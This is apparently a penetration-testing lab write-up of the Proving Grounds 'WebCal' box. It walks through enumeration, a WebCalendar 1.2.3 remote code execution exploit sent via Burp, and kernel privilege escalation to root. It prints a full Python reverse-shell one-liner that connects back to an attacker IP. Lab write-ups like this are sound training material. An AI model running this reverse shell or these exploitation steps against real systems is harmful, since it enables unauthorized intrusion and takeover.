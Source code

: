 #### Enumeration

##### Nmap 

```
nmap -Pn -p- -sC -sV 192.168.191.37 -T4 -oN WebCal.nmap
```

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/WebCal/WebCal%202021-06-24%20213757.png)

##### FTP

```
ftp -p 192.168.191.37 21 
```

Not allow anonymous login.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/WebCal/WebCal%202021-06-24%20233404.png)

##### HTTP

Try to find exploits in the HTTP service first.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/WebCal/WebCal%202021-06-25%20010855.png)

Click the NOTIFY ME button at the bottom right of the webpage. It leads to the send.php page.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/WebCal/WebCal%202021-06-25%20012840.png)

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/WebCal/WebCal%202021-06-25%20013044.png)

Scan directories.

```
feroxbuster -u http://192.168.191.37 -w /usr/share/wordlists/directory-list-2.3-medium.txt
```
![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/WebCal/WebCal%202021-06-25%20010345.png)

Analyze send.php in Burp Suite but I don’t know what it means, so I continue to look for other possibilities.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/WebCal/WebCal_2021.06.25_14h42m26s_002_.png)

##### SMTP

Enumerate user names, nothing special.

```
smtp-user-enum -M RCPT -U /usr/share/wordlists/names.txt -t 192.168.191.37 -m 10 -f user@example.com
```

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/WebCal/WebCal%202021-06-25%20092925.png)

Go back and scan directories with different dir list. Find the webcalendar.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/WebCal/WebCal_2021.06.25_21h00m22s_006_.png)

Guess the login admin///admin (find in doc) but failed. (hydra with rockyou.txt failed :dizzy_face: )

```
http://<IP>/webcalendar/docs/WebCalendar-SysAdmin.html
```
![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/WebCal/WebCal_2021.06.25_22h38m37s_009_.png)

Look for available vulnerabilities and find a [WebCalendar RCE](https://www.exploit-db.com/exploits/18775), because the server is running version 1.2.3, so it might work.

After reading the description. I plan to use Burp Suite to send the exploit request. Note that the code is written for use in PHP. The escape character backslash in the string must be removed. 

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/WebCal/WebCal_2021.06.26_14h36m16s_008_.png)

I use the Repeater function to make it easier to test. First, send exploit payload.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/WebCal/WebCal_2021.06.26_14h02m07s_002_.png)

Second, use a simple command to test whether the exploit is successful. Convert `ls` command string into base64 format `bHM=`. 

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/WebCal/WebCal_2021.06.26_14h37m37s_009_.png)

If you get response code 408 try to set the body encoding.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/WebCal/WebCal_2021.06.26_14h18m42s_005_.png)

Now we can confirm that the exploit works and then try to send the reverse shell command. 

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/WebCal/WebCal_2021.06.26_14h15m13s_004_.png)

Use the python command below to successfully get the connection. Convert the code to base64 format before sending.

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.49.191",21));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")' 
```
![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/WebCal/WebCal_2021.06.26_16h00m41s_016_.png)

www-data

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/WebCal/WebCal_2021.06.26_14h32m54s_006_.png)

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/WebCal/WebCal_2021.06.26_14h34m59s_007_.png)

#### Privilege Escalation

Execute linpeas.sh file to obtain suggestions.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/WebCal/WebCal_2021.06.26_14h45m28s_011_.png)

![imahe](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/WebCal/WebCal_2021.06.26_14h42m51s_010_.png)

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/WebCal/WebCal_2021.06.26_14h46m39s_012_.png)

Reviewing the list, I found that the server uses an old version of the Linux kernel.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/WebCal/WebCal_2021.06.26_15h00m12s_013_.png)

After Googling, there is a possible suitable vulnerability "empodipper".

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/WebCal/WebCal_2021.06.26_15h02m29s_014_.png)

The first vulnerability attack method failed.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/WebCal/WebCal_2021.06.26_13h05m22s_001_.png)

Using the second vulnerability attack method to obtain root permission successfully.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/WebCal/WebCal_2021.06.26_15h07m50s_015_.png)
